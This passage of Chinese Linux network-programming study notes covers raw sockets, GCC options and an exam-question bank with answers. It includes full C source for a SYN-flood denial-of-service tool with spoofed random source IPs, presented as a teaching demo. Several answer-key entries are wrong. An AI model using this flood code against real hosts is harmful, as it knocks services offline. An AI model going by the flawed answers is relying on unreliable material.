(1) 第一次握手：建立连接时，客户端A发送SYN包(SEQ_NUMBER=j)到服务器B，并进入SYN_SEND状态，等待服务器B确认。

(2) 第二次握手：服务器B收到SYN包，必须确认客户A的SYN(ACK_NUMBER=j+1)，同时自己也发送一个SYN包(SEQ_NUMBER=k)，即SYN+ACK包，此时服务器B进入SYN_RECV状态。

(3) 第三次握手：客户端A收到服务器B的SYN＋ACK包，向服务器B发送确认包ACK(ACK_NUMBER=k+1)，此包发送完毕，客户端A和服务器B进入ESTABLISHED状态，完成三次握手。

至此3次握手结束，TCP通路就建立起来了，然后客户端与服务器开始交互数据。上面描述过程中，SYN包表示TCP数据包的标志位syn=1，同理，ACK表示TCP报文中标志位ack=1，SYN+ACK表示标志位syn=1和ack=1同时成立。

原始套接字还提供了一个非常有用的参数IP_HDRINCL：

1、当开启该参数时：我们可以从IP报文首部第一个字节开始依次构造整个IP报文的所有选项，但是IP报文头部中的标识字段(设置为0时)和IP首部校验和字段总是由内核自己维护的，不需要我们关心。

2、如果不开启该参数：我们所构造的报文是从IP首部之后的第一个字节开始，IP首部由内核自己维护，首部中的协议字段被设置成调用socket()函数时我们所传递给它的第三个参数。

 开启IP_HDRINCL特性的模板代码一般为：
#+BEGIN_SRC c
  const int on =1;
  if (setsockopt (sockfd, IPPROTO_IP, IP_HDRINCL, &on, sizeof(on)) < 0){
      printf("setsockopt error!\n");
  }
#+END_SRC
所以，我们还得复习一下IP报文的首部格式：

[SOCK_RAW/raw_4.jpg]

同样，我们重点关注IP首部中的着色部分区段的填充情况。

有了上面的知识做铺垫，接下来DOS示例代码的编写就相当简单了。我们来体验一下手动构造原生态IP报文的乐趣吧

#+BEGIN_SRC c
//mdos.c
#include <stdlib.h>
#include <stdio.h>
#include <errno.h>
#include <string.h>
#include <unistd.h>
#include <netdb.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <linux/tcp.h>

//我们自己写的攻击函数
void attack(int skfd,struct sockaddr_in *target,unsigned short srcport);
//如果什么都让内核做，那岂不是忒不爽了，咱也试着计算一下校验和。
unsigned short check_sum(unsigned short *addr,int len);

int main(int argc,char** argv){
        int skfd;
        struct sockaddr_in target;
        struct hostent *host;
        const int on=1;
        unsigned short srcport;

        if(argc!=2)
        {
                printf("Usage:%s target dstport srcport\n",argv[0]);
                exit(1);
        }

        bzero(&target,sizeof(struct sockaddr_in));
        target.sin_family=AF_INET;
        target.sin_port=htons(atoi(argv[2]));

        if(inet_aton(argv[1],&target.sin_addr)==0)
        {
                host=gethostbyname(argv[1]);
                if(host==NULL)
                {
                        printf("TargetName Error:%s\n",hstrerror(h_errno));
                        exit(1);
                }
                target.sin_addr=*(struct in_addr *)(host->h_addr_list[0]);
        }

        //将协议字段置为IPPROTO_TCP，来创建一个TCP的原始套接字
        if(0>(skfd=socket(AF_INET,SOCK_RAW,IPPROTO_TCP))){
                perror("Create Error");
                exit(1);
        }

        //用模板代码来开启IP_HDRINCL特性，我们完全自己手动构造IP报文
         if(0>setsockopt(skfd,IPPROTO_IP,IP_HDRINCL,&on,sizeof(on))){
                perror("IP_HDRINCL failed");
                exit(1);
        }

        //因为只有root用户才可以play with raw socket :)
        setuid(getpid());
        srcport = atoi(argv[3]);
        attack(skfd,&target,srcport);
}

//在该函数中构造整个IP报文，最后调用sendto函数将报文发送出去
void attack(int skfd,struct sockaddr_in *target,unsigned short srcport){
        char buf[128]={0};
        struct ip *ip;
        struct tcphdr *tcp;
        int ip_len;

        //在我们TCP的报文中Data没有字段，所以整个IP报文的长度
        ip_len = sizeof(struct ip)+sizeof(struct tcphdr);
        //开始填充IP首部
        ip=(struct ip*)buf;

        ip->ip_v = IPVERSION;
        ip->ip_hl = sizeof(struct ip)>>2;
        ip->ip_tos = 0;
        ip->ip_len = htons(ip_len);
        ip->ip_id=0;
        ip->ip_off=0;
        ip->ip_ttl=MAXTTL;
        ip->ip_p=IPPROTO_TCP;
        ip->ip_sum=0;
        ip->ip_dst=target->sin_addr;

        //开始填充TCP首部
        tcp = (struct tcphdr*)(buf+sizeof(struct ip));
        tcp->source = htons(srcport);
        tcp->dest = target->sin_port;
        tcp->seq = random();
        tcp->doff = 5;
        tcp->syn = 1;
        tcp->check = 0;

        while(1){
                //源地址伪造，我们随便任意生成个地址，让服务器一直等待下去
                ip->ip_src.s_addr = random();
                tcp->check=check_sum((unsigned short*)tcp,sizeof(struct tcphdr));
                sendto(skfd,buf,ip_len,0,(struct sockaddr*)target,sizeof(struct sockaddr_in));
        }
}

//关于CRC校验和的计算，网上一大堆，我就“拿来主义”了
unsigned short check_sum(unsigned short *addr,int len){
        register int nleft=len;
        register int sum=0;
        register short *w=addr;
        short answer=0;

        while(nleft>1)
        {
                sum+=*w++;
                nleft-=2;
        }
        if(nleft==1)
        {
                *(unsigned char *)(&answer)=*(unsigned char *)w;
                sum+=answer;
        }

        sum=(sum>>16)+(sum&0xffff);
        sum+=(sum>>16);
        answer=~sum;
        return(answer);
}
#+END_SRC

用前面我们自己编写TCP服务器端程序来做本地测试，看看效果。先把服务器端程序启动起来，如下：

[SOCK_RAW/raw_5.jpg]

 然后，我们编写的“捣蛋”程序登场了：

[SOCK_RAW/raw_6.jpg]

 该“mdos”命令执行一段时间后，服务器端的输出如下：

[SOCK_RAW/raw_7.jpg]

因为我们的源IP地址是随机生成的，源端口固定为8888，服务器端收到我们的SYN报文后，会为其分配一条连接资源，并将该连接的状态置为SYN_RECV，然后给客户端回送一个确认，并要求客户端再次确认，可我们却不再bird别个了，这样就会造成服务端一直等待直到超时。
备注：本程序仅供交流分享使用，不要做恶，不然后果自负哦。
最后补充一点，看到很多新手经常对struct ip{}和struct iphdr{}，struct icmp{}和struct icmphdr{}纠结来纠结去了，不知道何时该用哪个。在/usr/include/netinet目录这些结构所属头文件的定义，头文件中对这些结构也做了很明确的说明，这里我们简单总结一下：
struct ip{}、struct icmp{}是供BSD系统层使用，struct iphdr{}和struct icmphdr{}是在INET层调用。同理tcphdr和udphdr分别都已经和谐统一了，参见tcp.h和udp.h。
BSD和INET的解释在协议栈篇章详细论述，这里大家可以简单这样来理解：我们在用户空间的编写网络应用程序的层次就叫做BSD层。所以我们该用什么样的数据结构呢？良好的编程习惯当然是BSD层推荐我们使用的，struct ip{}、struct icmp{}。至于INET层的两个同类型的结构体struct iphdr{}和struct icmphdr{}能用不？我只能说不建议。看个例子：

[SOCK_RAW/raw_8.jpg]

我们可以看到无论BSD还是INET层的IP数据包结构体大小是相等的，ICMP报文的大小有差异。而我们知道ICMP报头应该是8字节，那么BSD层为什么是28字节呢？留给大家思考。也就是说，我们这个mdos.c的实例程序中除了用struct ip{}之外还可以用INET层的struct iphdr{}结构。将如下代码：
#+BEGIN_SRC c
struct ip *ip;
…
ip=(struct ip*)buf;
ip->ip_v = IPVERSION;
ip->ip_hl = sizeof(struct ip)>>2;
ip->ip_tos = 0;
ip->ip_len = htons(ip_len);
ip->ip_id=0;
ip->ip_off=0;
ip->ip_ttl=MAXTTL;
ip->ip_p=IPPROTO_TCP;
ip->ip_sum=0;
ip->ip_dst=target->sin_addr;
…
ip->ip_src.s_addr = random();
#+END_SRC

改成:

#+BEGIN_SRC c
struct iphdr *ip;
…
ip=(struct iphdr*)buf;
ip->version = IPVERSION;
ip->ihl = sizeof(struct ip)>>2;
ip->tos = 0;
ip->tot_len = htons(ip_len);
ip->id=0;
ip->frag_off=0;
ip->ttl=MAXTTL;
ip->protocol=IPPROTO_TCP;
ip->check=0;
ip->daddr=target->sin_addr.s_addr;
…
ip->saddr = random();

#+END_SRC

结果请童鞋们自己验证。虽然结果一样，但在BSD层直接使用INET层的数据结构还是不被推荐的。
小结：
1、IP_HDRINCL选项可以使我们控制到底是要从IP头部第一个字节开始构造我们的原始报文或者从IP头部之后第一个数据字节开始。
2、只有超级用户才能创建原始套接字。
3、原始套接字上也可以调用connet、bind之类的函数，但都不常见。原因请大家回顾一下这两个函数的作用。想不起来的童鞋回头复习一下前两篇的内容吧。


* GCC编译器使用
#+BEGIN_SRC
1.预处理,生成.i的文件[预>处理器cpp]

2.将预处理后的文件不转换成汇编语言,生成文件.s[编译器egcs]

3.有汇编变为目标代码(机器代码)生成.o的文件[汇编器as]

4.连接目标代码,生成可执行程序[链接器ld]

gcc
-g 允许调试
-o 指定输出文件名
-pthread 以便使用线程相关头文件

[参数详解]
-x language filename
　 设定文件所使用的语言,使后缀名无效,对以后的多个有效.也就是根据约定C语言的后
缀名称是.c的，而C++的后缀名是.C或者.cpp,如果你很个性，决定你的C代码文件的后缀
名是.pig 哈哈，那你就要用这个参数,这个参数对他后面的文件名都起作用，除非到了
下一个参数的使用。
　　可以使用的参数吗有下面的这些
　　`c', `objective-c', `c-header', `c++', `cpp-output', `assembler', and `a
ssembler-with-cpp'.
　　看到英文，应该可以理解的。
　　例子用法:
　　gcc -x c hello.pig
　　
-x none filename
　　关掉上一个选项，也就是让gcc根据文件名后缀，自动识别文件类型
　　例子用法:
　　gcc -x c hello.pig -x none hello2.c
　　
-c
　　只激活预处理,编译,和汇编,也就是他只把程序做成obj文件
　　例子用法:
　　gcc -c hello.c
　　他将生成.o的obj文件

-S
　　只激活预处理和编译，就是指把文件编译成为汇编代码。
　　例子用法
　　gcc -S hello.c
　　他将生成.s的汇编代码，你可以用文本编辑器察看

-E
　　只激活预处理,这个不生成文件,你需要把它重定向到一个输出文件里面.
　　例子用法:
　　gcc -E hello.c > pianoapan.txt
　　gcc -E hello.c | more
　　慢慢看吧,一个hello word 也要与处理成800行的代码

-o
　　制定目标名称,缺省的时候,gcc 编译出来的文件是a.out,很难听,如果你和我有同感
，改掉它,哈哈
　　例子用法
　　gcc -o hello.exe hello.c (哦,windows用习惯了)
　　gcc -o hello.asm -S hello.c
-pipe
　　使用管道代替编译中临时文件,在使用非gnu汇编工具的时候,可能有些问题
　　gcc -pipe -o hello.exe hello.c
-ansi
　　关闭gnu c中与ansi c不兼容的特性,激活ansi c的专有特性(包括禁止一些asm inl
ine typeof关键字,以及UNIX,vax等预处理宏,
-fno-asm
　　此选项实现ansi选项的功能的一部分，它禁止将asm,inline和typeof用作关键字。
　　　　
-fno-strict-prototype
　　只对g++起作用,使用这个选项,g++将对不带参数的函数,都认为是没有显式的对参数
的个数和类型说明,而不是没有参数.
　　而gcc无论是否使用这个参数,都将对没有带参数的函数,认为城没有显式说明的类型

　　
-fthis-is-varialble
　　就是向传统c++看齐,可以使用this当一般变量使用.
　　
-fcond-mismatch
　　允许条件表达式的第二和第三参数类型不匹配,表达式的值将为void类型
　　
-funsigned-char
-fno-signed-char
-fsigned-char
-fno-unsigned-char
　　这四个参数是对char类型进行设置,决定将char类型设置成unsigned char(前两个参
数)或者 signed char(后两个参数)
　　
-include file
　　包含某个代码,简单来说,就是便以某个文件,需要另一个文件的时候,就可以用它设
定,功能就相当于在代码中使用#include<filename>
　　例子用法:
　　gcc hello.c -include /root/pianopan.h
　　
-imacros file
　　将file文件的宏,扩展到gcc/g++的输入文件,宏定义本身并不出现在输入文件中
　　
-Dmacro
　　相当于C语言中的#define macro
　　
-Dmacro=defn
　　相当于C语言中的#define macro=defn
　　
-Umacro
　　相当于C语言中的#undef macro
-undef
　　取消对任何非标准宏的定义
　　
-Idir
　　在你是用#include"file"的时候,gcc/g++会先在当前目录查找你所制定的头文件,如
果没有找到,他回到缺省的头文件目录找,如果使用-I制定了目录,他
　　回先在你所制定的目录查找,然后再按常规的顺序去找.
　　对于#include<file>,gcc/g++会到-I制定的目录查找,查找不到,然后将到系统的缺
省的头文件目录查找
　　
-I-
　　就是取消前一个参数的功能,所以一般在-Idir之后使用
　　
-idirafter dir
　　在-I的目录里面查找失败,讲到这个目录里面查找.
　　
-iprefix prefix
-iwithprefix dir
　　一般一起使用,当-I的目录查找失败,会到prefix+dir下查找
　　
-nostdinc
　　使编译器不再系统缺省的头文件目录里面找头文件,一般和-I联合使用,明确限定头
文件的位置
　　
-nostdin C++
　　规定不在g++指定的标准路经中搜索,但仍在其他路径中搜索,.此选项在创libg++库
使用
　　
-C
　　在预处理的时候,不删除注释信息,一般和-E使用,有时候分析程序，用这个很方便的

　　
-M
　　生成文件关联的信息。包含目标文件所依赖的所有源代码你可以用gcc -M hello.c
来测试一下，很简单。
　　
-MM
　　和上面的那个一样，但是它将忽略由#include<file>造成的依赖关系。
　　
-MD
　　和-M相同，但是输出将导入到.d的文件里面
　　
-MMD
　　和-MM相同，但是输出将导入到.d的文件里面
　　
-Wa,option
　　此选项传递option给汇编程序;如果option中间有逗号,就将option分成多个选项,然
后传递给会汇编程序
　　
-Wl.option
　　此选项传递option给连接程序;如果option中间有逗号,就将option分成多个选项,然
后传递给会连接程序.
　　
-llibrary
　　制定编译的时候使用的库
　　例子用法
　　gcc -lcurses hello.c
　　使用ncurses库编译程序
　　
-Ldir
　　制定编译的时候，搜索库的路径。比如你自己的库，可以用它制定目录，不然
　　编译器将只在标准库的目录找。这个dir就是目录的名称。
　　
-O0
-O1
-O2
-O3
　　编译器的优化选项的4个级别，-O0表示没有优化,-O1为缺省值，-O3优化级别最高　
　 　　
-g
　　只是编译器，在编译的时候，产生调试信息。
　　
-gstabs
　　此选项以stabs格式声称调试信息,但是不包括gdb调试信息.
　　
-gstabs+
　　此选项以stabs格式声称调试信息,并且包含仅供gdb使用的额外调试信息.
　　
-ggdb
　　此选项将尽可能的生成gdb的可以使用的调试信息.
-static
　　此选项将禁止使用动态库，所以，编译出来的东西，一般都很大，也不需要什么
动态连接库，就可以运行.
-share
　　此选项将尽量使用动态库，所以生成文件比较小，但是需要系统由动态库.
-traditional
　　试图让编译器支持传统的C语言特性

#+END_SRC


* 作业题目
*** 1.
当TCP连接的两端都已关闭，为什么TCP主动关闭的一端还在状态TIME_WAIT下等待一段时间才删除原来的链接记录，并返回到CLOSED
#+BEGIN_SRC
要保证在所有可能的情况下使得所有的数据都能够被投递。当你关闭一个socket时，主动关闭一端的socket将进入TIME_WAIT状态，而被动关闭的一方则转入CLOSED状态，这的确能够保证所有的数据都被传输
#+END_SRC
*** 2.
new和malloc函数的区别
#+BEGIN_SRC
malloc是C语言的标准库函数，它实现了在堆内存管理中进行按需分配的机制
new是一个在C++中同时完成堆内存按需分配支持和对象构造功能的运算符
#+END_SRC
*** 3.
值—果参数与普通参数的区别
#+BEGIN_SRC
值—结果参数是传递的方向不同，导致其值的性质做改变

#+END_SRC

*** 4.
并发服务器可由哪些技术实现
#+BEGIN_SRC
多进程并发、多线程并发、I/O复用并发
#+END_SRC
*** 5.
什么是僵尸进程
#+BEGIN_SRC
在UNIX系统中，一个进程结束了，但他的父进程没在等待（调用waitpid/wait）他，那么他变成一个僵尸进程
#+END_SRC

*** 6.
多进程/多线程状态获取是由什么函数实现的
#+BEGIN_SRC
多进程: fork,vfork
多线程: wait,waitpid
#+END_SRC

*** 7.
解决线程同步数据的技术有哪几种
#+BEGIN_SRC
1）	用Interlocked系列函数
2）	用CRITICAL_SECTION及其系列函数实现线程同步
3）	RTL_SRWLOCK及其系列函数
4）	事件内核对象
5）	信号量内核对象
#+END_SRC

*** 8.
静态变量的引用和TSD数据的区别
#+BEGIN_SRC
静态变量的存储空间的静态分配的方式获取，在C中也可理解为全局变量
#+END_SRC
*** 9.
原始套接字编程解决了什么问题
#+BEGIN_SRC
可收发内核未处理的数据包
#+END_SRC
*** 10.
如何自定义一个IP首部数据报
#+BEGIN_SRC
1）	创建一个原始套接字，并设置IP头选项
2）	构造IP头、TCP头
3）	发送原始套接字数据报
4）	接收数据
#+END_SRC
*** 11.
守护进程是什么
#+BEGIN_SRC
在Linux或Unix操作系统中，守护进程是一种运行在后台的特殊进程，它独立于控制端并且周期性的执行某种任务或等待处理某些发生的事件
#+END_SRC
*** 12.
守护进程编程的思路
#+BEGIN_SRC
略略略
#+END_SRC



* 试题集锦

** 填空题
1.基于TCP通信中,主动关闭连接的一方会在TIME_WAIT状态下等待 #2MSL# 长度的时间.因此主动关闭的一方程序无法马上重新启动并再次绑定相同的IP地址与端口.这时使用函数 #setsockopt# 并在参数中指定套接字选项 #SO_REUSEADDR#

2.名字到IP地址的解析使用的函数是 #gethostbyname# ,IP地址到域名的解析函数是 #gethostbyaddr#

3.为保证"大端"和"小端"字节序的机器之间能相互通信,需在发生多字节整数时,将主机字节序转换成 #网络字节序#

4.socket()函数可以创建三类套接字,分别是 #TCP套接字,UDP套接字,原始套接字#

5.bind(),connect()等函数在出错时均会返回-1,具体出错的原因的错误代码可以在全局变量 #errno# 中找到,调用 #perror# 可以将错误代码转换成为它对应的字符串信息.

6.在TCP连接中,若需要关闭某个方向的连接,可以使用函数 #shutdown#

7.gethostname(char *name, size_t namelen)函数的功能是 #返回当前主机的名字,name是指向主机名存储位置的指针,namelen是此数组的大小#

8.pselect(int maxfd, fd_set *readset, fd_set *writeset, fd_set *exceptset, const struct timeval *timeout, const sigset_t *sigmask)函数的maxfd参数的值是 #被测试描述字个数# , timeout参数定义的超时时间精确到 #纳秒#, sigmask参数的作用是 #阻塞信号# ,
pselect函数的返回值有三种情况,返回值为0表示 #超时# ,返回值大于0表示 #已经准备好的描述符数# ,而返回值为-1时表示出错.

9.设置SO_KEEPALIVE选项的作用是 #保持连接检测对方主机是否崩溃,避免服务器永远陷入TCP连接的输入#

10.pthread_key_create(pthread_key_t *key, void (* destructor)(void *value))函数的作用是 #在函数内部分配一个TSD的关键字# , 其中destructor是 #可选的析构函数,可以和每个关键字联系# , value是 #与本线程相关的值# , value 的默认值是 #指向动态分配的内存区域#.

11.基于TCP协议的服务器端程序中,需要两个描述符,它们分别是由 #socket()# 函数创建的负责 #监听描述符用来监听一个端口,当有一个客户与服务器连接的时候,它使用这个端口号,而此时这个端口号正与这个套接字关联# 的描述符, 和由 #accept()# 函数创建的负责 #已连接描述符会默认阻塞进程,直到有一个客户连接建立后立即返回,它返回的是一个新可用的套接字,这个套接字是连接套接字# 的描述符.

13.函数bind返回的是一个常见错误:所绑定的地址被其他进程所使用,为解决这个问题,我们可以通过调用 #setsockopt# 函数, 并为该函数的Optname设置形参传递 #SO_REUSEADDR# 参数,避免这个错误

14.基于TCP套接字程序中,服务器可以通过 #accept# 函数返回与之通信的当前客户端的套接字地址结构

15.pthread_detach(pthread_t tid)的作用是将一个 #可联合的# 线程变成 #可分离的# 线程.

17.linux操作系统中支持五种I/O模型,分别是 #I/O复用,异步I/O,驱动I/O,阻塞I/O模型和非阻塞I/O模型#

18.#pthread_key_create#函数在进程内部分配一个标志TSD的关键字,并且该函数其中一个形参是可选的析构函数,当系统调用该析构函数时,传递的形参是 #value#

19.INADDR_ANY调用bind的服务器,在接受连接后,调用 #getsockname# 函数获取系统选择的IP地址.

20.如果用户程序为发送网络数据报结构自己的IPv4头部,需创建 #原始# 套接字, 并且前提是: 调用 #socket# 函数,给套接字设置 #SOCK_RAW# 选项


** 判断题


1. [T] 在用pthread库编写的多线程程序中,若主线程退出,则主线程创建的新线程将继续运行

2. [F] 在TCP网络程序中,connect()函数用于客户端向服务器发起链接而在UDP网络程序中,由于UDP是面向无连接的,所以connect()函数不能用于UDP连接

3. [T] inet_ntoa()函数可以将32位的网络字节序二进制IPv4地址转换程相应的字符串形式的IP地址,但不能将二进制IPv6地址转换成相应的字符串形式的IP地址

4. [T] 服务器程序通常都会调用bind()函数以绑定监听地址,而客户端则很少调用它

5. [T] 当一个客户SYN到达时,若未完成连接队列和已完成连接队列都是满的,TCP就忽略此分节,且不发送RST

6. [F] 调用close()函数将立即关闭发送与接收这两个方向的TCP连接而不管将关闭的套接字的引用情况 (只是将计数减一不会引发TCP终止操作)

7. [F] 在TCP客户服务器通信中,若服务器端崩溃,则可以通过重启服务器让正在进行通信继续

8. [T] TCP迭代服务器在某一时刻最多只能存在一个客户端与之简历的通信连接,而并发服务器在某一时刻可以存在多个客户端与之的通信连接

9. [F] 互斥锁是一种专用于进程间数据同步的计数

10. [T] 当子进程正常或异常终止时,系统内核会向其父进程发送SIGCHLD信号(正常,结束,中断,或恢复执行内核都会发送 SIGCHLD)

11. [T] 可以使用原始套接口编程伪造IP数据包实现DoS攻击

12. [T] 在多进程编程中,父进程用于监听,子进程用于为已经连接客户端提供服务,则父进程必须关闭已连接套接字,子进程必须关闭监听套接字

13. [F] 调用bind()函数时,必须指明IP地址与端口号,而不能让内核来选择IP地址与端口号

14. [T] 调用select函数可以实现与sleep函数一样的延时功能

15. [T] connect()函数的作用是发起建立连接的请求

16. [T] 基于TCP协议的服务器端程序,可以通过accept()函数获得与之通信的客户端的IP地址和端口号

17. [F] 基于UDP协议的服务端和客户端程序,在接收和发送数据时,必须使用sendto()和recvform()函数(read write)

18. [T] fork()函数和vfork()函数都可以创建子进程,所以基于这两个函数都可以实现多进程并发服务器

19. [F] 线程可以调用exit()函数退出,而且对统一进程的其它线程不会造成影响(exit结束整个程序)

20. [F] pthread_join()可以等待任意线程的退出(不能等待任一线程结束)

21. [T] 标识线程专用数据的关键字key是进程唯一的.

22. [T] 使用I/O复用技术可以实现并发服务器

23. [F] 对SO_KEEPALIVE选项中时间参数的修改,会影响到主机中打开该选项的所有套接字(只针对相应的)

24. [F] gethostbyname(const char *hostname)函数不允许将IP地址作为函数的参数

25. [T] SO_LINGER选项可以改变TCP套接字关闭连接时的缺省行为

26. [F] 只要创建了原始套接字就可以自行构造IPv4的首部(setsockopt(sockfd, IPPROTO_IP, IP_HDRINCL, &on, sizeof(on))

27. [F] 可以对未加互斥锁的数据进行解锁

28. [T] 使用互斥锁可以保证,在同一时间内,只允许一个线程访问共享数据

29. [T] select()函数可以实现计时器功能

30. [F] 由确定通信的五元组(本地协议,本地IP,本地端口,远程协议,远程IP,远程端口)可知,该(本地TCP,本地IP,本地端口,远程UDP,远程IP,远程端口)六元组所标识网络中一个连接可以进行正常的网络通信

31. [F] 套接口是计算机操作系统为TCP/UDP协议与IP协议之间进行数据交互提供的接口,又称套接字(套接口是接口与套接字是描述符是两个东西)

32. [T] 在IPv4套接字地址结构中,成员sin_port是用来存储主机字节顺序端口号

33. [T] 默认情况下,close函数将套接字的访问次数减1,并丢弃发送缓冲区和接受缓冲区的数据,仅在本次计数为0时才关闭套接字

34. [T] UDP套接字编程,调用recvfrom函数可以获得通信的对方的套接字地址结构

35. [F] wait()函数可以处理同时退出的多个线程在进行

36. [F] 一个线程的崩溃不会影响同一进程中的其他线程(线程没有自己的地址空间,非法地址读写崩溃,整个进程也是错误的)

37. [T] 在多线程并发服务器中,主线程生成子线程后,在主线程中要关闭已连接描述符,在子线程中要关闭监听描述字

38. [T] 标识线程专用数据的关键字key是进程唯一的

39. [T] stdin设为非阻塞后,不能使用标准输入输出函数操作该句柄,而要通过read来操作

40. [T] 非阻塞I/O的实现可以通过fcntl()来改变描述符的标志来实现

41. [T] I/O复用模型调用select或poll,进程阻塞于这两个系统调用上,而不是阻塞在真正的I/O系统调用上

42. [F] 在TCP服务器,为了接受更多的数据,可以在接收数据调用打开read函数时,临时更改套接字接受缓冲区的大小

43. [T] 改变某个描述符的SO_KEEPALIVE选项值,不会影响到主机上打开的其他描述符

44. [F] 只要创建了原始套接字就可以自行构造IP报文的首部

45. [F] 由确定通信的五元组(本地协议,本地IP,本地端口,远程协议,远程IP,远程端口)可知,该(本地TCP,本地IP,本地端口,远程UDP,远程IP,远程端口)六元组所标识网络中一个连接可以进行正常的网络通信

46. [F] 套接口是计算机操作系统为TCP/UDP协议与IP协议之间进行数据交互提供的接口,又称套接字

47. [F] 在TCP的客户端程序中,如果connect()函数调用失败,则还可以继续使用该套接字(套接字不能再使用必须关闭)

48. [T] 在IPv4套接字地址结构中,in_addr结构体中的s_addr成员,存储的便是我们主机字节序的32位IPv4地址

49. [F] vfork()函数创建子进程后,父进程和子进程谁先执行,这取决于内核所使用的调度算法,有可能父进程先于子进程执行,也有可能子进程先于父进程执行

50. [F] 在UDP套接字程序中,客户端与服务端通信时,必须使用sendto()和recvfrom()函数(write read)

51. [T] waitpid()函数可以处理同时退出的多个线程在进行

52. [F] 对于非阻塞I/O模型,进程从调用recvfrom函数,将数据从内核拷贝到用户空间整个过程都不会阻塞进程的执行(在数据拷贝的时候阻塞)

53. [T] 在多线程并发服务器中,为防止父子线程对描述符的操作造成混乱,在主线程创建子线程后,应在父线程中关闭已连接描述符

54. [T] 创建的子线程默认情况可联合的

55. [F] 在TCP的客户端程序中,为了接受更多的数据,可以在接收数据调用打开read函数时,临时更改套接字接受缓冲区的大小

56. [F] SO_SNDLOWAT用来设置套接字发送缓冲区的发送低潮,当发送缓冲区的现有数据量大于发送低潮时,便可以发送数据,select返回可写(小于时触发I/O)


** 阅读程序回答问题

*** 1.
#+BEGIN_SRC c -r -n
  int main(void)
  {
      pid_t pid;
      int status;
      if((pid = fork()) == 0)
      {
          sleep(2);
          printf("aaaaaaaaaa.\n");
          printf("bbbbbbbbbb.\n");
          sleep(2);
          printf("cccccccccc.\n");
          exit(0);
      }else if( pid > 0)
      {
          printf("dddddddddd.\n");
          printf("eeeeeeeeee.\n");
          exit(0);
      } else {
          printf("fork error.\n");
          exit(1);
      }
  }
#+END_SRC

(1) 在fork()函数调用成功的情况下,父进程的执行路径是什么?依次写出语句行号
#+BEGIN_SRC
1,2,3,4,5,13,14,15,16,17
#+END_SRC

(2) 在fork()函数调用成功的情况下,子进程的执行路径是什么?请依次写语句行号
#+BEGIN_SRC
1,2,3,4,5,6,7,8,9,10,11,12
#+END_SRC

(3) 请写出在调用成功的情况下,屏幕上的输出
#+BEGIN_SRC
dddd..
eeee..
aaaa..
bbbb..
cccc..
#+END_SRC


*** 2.
#+BEGIN_SRC c
  //头文件略
  int myglobal = 0;
  void * thread_function(void * arg) {
      int i,j;
      for (i = 0; i < 5; i++) {
          j = myglobal;
          j = j+1;
          sleep(1);
          myglobal = j;
      }
      return NULL;
  }

  int main(void) {
      pthread_t mythread;
      int i;
      if (pthread_create(&mythread, NULL, thread_function, NULL)){
          printf("error.\n");
          exit(1);
      }
      for (i = 0; i < 5; i++) {
          myglobal = myglobal + 1;
          sleep(1); //见问题3
      }
      printf("myglobal = %d.\n", myglobal);
      return 0;
  }
#+END_SRC

(1) 程序中新创建的线程执行那些语句?

#+BEGIN_SRC
pthread(create(&mythread, NULL, thread_function, NULL);
#+END_SRC

(2) 上述程序希望对myglobal加10,请问是否正确,请说明原因

#+BEGIN_SRC
不正确,答案不确定,若sleep函数稳定完成线程挂起功能,在主线程加一后进入子线程完成对j的增加后切回主线程myglobal增加这样的区别在于j的值始终比myglobal的值多1,基于理想情况在printf语句的时候,子线程已经完成了5次的赋值如果myglobal = j这条语句已经被执行那么就会对输出结果导致偏差
#+END_SRC

(3) 若上述带注释的sleep(1)语句删除,程序的输出结果是?请解释为什么

#+BEGIN_SRC
答案是5,主线程不存在挂起的时候,一直往下执行所以导致直接输出了主线程中的运算结果5
#+END_SRC


*** 3.
#+BEGIN_SRC c
  #include <stdint.h>
  #include <sys/time.h>
  #include <sys/types.h>
  #include <unistd.h>

  int main(void){
      fd_set rfds;
      struct timeval tv;
      int retval;
      char temp[100];
      FD_ZERO(&rfds);
      FD_SET(0, &rfds);
      tv.tv_sec = 5;
      tv.tv_usec = 0;
      retval = select(1, &rfds, NULL, NULL, &tv);
      if(FD_ISSET(0, &rfds)) {
          fget(temp, 100, stdin);
          printf("Data is available now.\n");
      }
      else {
          printf("No data arrive.\n");
          exit(0);
      }
  }

#+END_SRC
(1) FD_ZERO(&rfds)函数功能

#+BEGIN_SRC
初始化rfds,将rfds所有标志位置0
#+END_SRC
(2) FD_SET(0, &rfds) 函数功能

#+BEGIN_SRC
将rfds为0的描述字置1
#+END_SRC
(3) FD_ISSET(0, &rfds) 函数功能

#+BEGIN_SRC
检测rfds 为0的描述字是否为1
#+END_SRC

(4) select(1, &rfds, NULL, NULL, &tv) 函数功能

#+BEGIN_SRC
测试这一个描述字rfds,在rfds套接口准备好读,写,异常时延迟5秒返回
#+END_SRC


*** 4.
#+BEGIN_SRC c
  #include <unistd.h>
  #include <sys/types.h>
  #include <sys/wait.h>

  int main(void) {
      pid_t pid;
      if ((pid = fork()) == 0) {
          sleep(1);
          printf("child running.\n", );
          printf("child dead.\n");
          exit(0);
      }
      else if (pid > 0) {
          printf("parent running.\n");
          waitpid(pid, NULL, 0);
          printf("parent exit.\n");
      }
      else {
          printf("fork error.\n");
          exit(0);
      }
  }

#+END_SRC

(1) fork函数功能
#+BEGIN_SRC
以copy on write 方式建立子进程,在子进程中返回0 父进程中返回子进程id号
#+END_SRC

(2) waitpid(pid, NULL, 0)函数功能

#+BEGIN_SRC
获得pid子进程的终止状态
#+END_SRC

(3) 该程序运行后,其结果为

#+BEGIN_SRC

parent running.
child running.
child dead.
parent exit.

#+END_SRC


*** 5.
#+BEGIN_SRC c
  #include <stdio.h>
  #include <pthread.h>
  pthread_key_t key;
  void echomsg(int t) {
      printf("destructor exected in thread %d, param = %d.\n", pthread_self(), t);
  }

  void *childfun(void *arg) {
      int tid = pthread_self();
      printf("thread %d enter.\n", tid);
      printf("the key's %d .\n", pthread_getspecific(key));
      pthread_setspecific(key, (void *)tid);
      sleep(2);
      printf("thread %d key's %d.\n", tid, pthread_getspecific(key));
      sleep(5);
  }

  int main(void) {
      pthread_t child_tid;
      printf("the main tid is %d.\n", pthread_self());
      pthread_key_create(&key, (void *)echomsg);
      //创建子进程.线程执行函数为childfun,线程id保存到child_tid变量;
      pthread_create(&child_tid, NULL, childfun, NULL);
      //在上面空缺行填写一行代码
      pthread_join(child_tid, NULL);
      pthread_key_delete(key);
      printf("main thread exit.\n");
      return 0;
  }
#+END_SRC

假如程序运行后,主线程id为123456,子线程id为234567,请写出程序的运行结果:
#+BEGIN_SRC
